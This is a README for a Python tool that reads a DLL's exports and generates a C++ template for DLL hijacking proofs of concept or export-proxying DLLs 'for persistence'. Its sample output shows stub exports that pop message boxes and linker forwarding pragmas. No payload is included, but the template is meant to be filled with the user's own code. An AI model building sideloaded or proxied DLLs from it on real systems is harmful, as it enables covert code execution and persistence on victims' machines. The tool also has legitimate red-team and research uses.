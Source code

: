 # DLL-Spoofer 
This python script scans a provided DLL's exports and creates a basic duplicate CPP DLL template. 

Two options, either export all the functions and pop MessageBoxA for DLL Hijacking POC or DLL proxy for persistence. 
Just add your own function in dllmain or select a proxied function to intercept. 


# Usage

``` python3 spoof.py
usage: spoof.py [-h] dll_path

Generate a C++ source file for a DLL that displays MessageBox for exported functions.

positional arguments:
  dll_path    Path to the DLL to inspect and create the C++ source for.

optional arguments:
  -h, --help  show this help message and exit
  --messagebox exports all functions and pops a MessageBoxA when called. Default: False
```

## Simply create a CPP DLL project, copy and paste the output file from the script. Build and profit???

Always appreciate a shout out in research if you use this! 

# Example 
python .\spoof.py .\StateRepository.Core\StateRepository.Core.dll
python .\spoof.py .\StateRepository.Core\StateRepository.Core.dll --messagebox

--> ExportedFunctions.cpp
```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <windows.h>

extern "C" {

__declspec(dllexport) void sqlite3_aggregate_context() {
    MessageBox(NULL, L"sqlite3_aggregate_context called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_aggregate_count() {
    MessageBox(NULL, L"sqlite3_aggregate_count called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_auto_extension() {
    MessageBox(NULL, L"sqlite3_auto_extension called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_finish() {
    MessageBox(NULL, L"sqlite3_backup_finish called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_init() {
    MessageBox(NULL, L"sqlite3_backup_init called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_pagecount() {
    MessageBox(NULL, L"sqlite3_backup_pagecount called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_remaining() {
    MessageBox(NULL, L"sqlite3_backup_remaining called", L"Function Call", MB_OK);
}

..... 
..... 
..... //Snipped like 30 other functions for example

__declspec(dllexport) void sqlite3_win32_utf8_to_mbcs_v2() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_mbcs_v2 called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_utf8_to_unicode() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_unicode called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_write_debug() {
    MessageBox(NULL, L"sqlite3_win32_write_debug called", L"Function Call", MB_OK);
}

}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
python .\spoof.py sideload.dll 

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <windows.h>

#pragma comment(linker, "/exportMB=sideload.MB")

#pragma comment(linker, "/exportmain=sideload.main")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
